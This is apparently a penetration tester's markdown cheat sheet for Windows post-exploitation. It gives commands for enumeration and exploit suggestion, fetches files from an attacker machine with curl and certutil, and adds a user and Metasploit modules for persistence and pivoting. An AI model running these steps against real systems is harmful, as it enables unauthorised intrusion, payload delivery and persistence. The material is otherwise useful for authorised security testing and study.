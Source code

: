 ##  Information collection

List of installed patches

    wmic qfe get Caption,Description,HotFixID,InstalledOn
 
 
Network connections

    netstat -r    # route info
    
    netstat -ano  # connections and the PID
    
    route print
    
    
Processes
 
     tasklist
    
    

Arp table

    arp -a

-------------------------------------------------------------------------------------

## Exploits

   
Auto finding exploits based on system information and installed patches
 
    cmd.exe /c systeminfo > systeminfo.txt

    ./winpwnSuggester.py --update

    ./winpwnSuggester.py --database YYYY-MM-DD-mssb.xls --systeminfo ~/sysinfo.txt
  
    [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)


metasploit exploit suggester module

    post/recon/local_exploit_suggester

-------------------------------------------------------------------------------------

## Downloading files from attacker machine 

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<remotefile> <save filename>
    
    Naviage directly through browser 
    
    ftp <ip>   #On attacker machine: python -m pyftpdlib 21  

    upload  #If using meterpreter


 ## Maintain persistence

  - Add user
  
        net user <username> <pass> /add

  - Metasploit
  
        exploit/windows/local/persistence
        
        exploit/windows/local/registry_persistence

        run persistence -h

  - Set a scheduled task


## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
       
## Escalating privilege

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)

# Find more

 Metasploit:
 
   post/winodws/
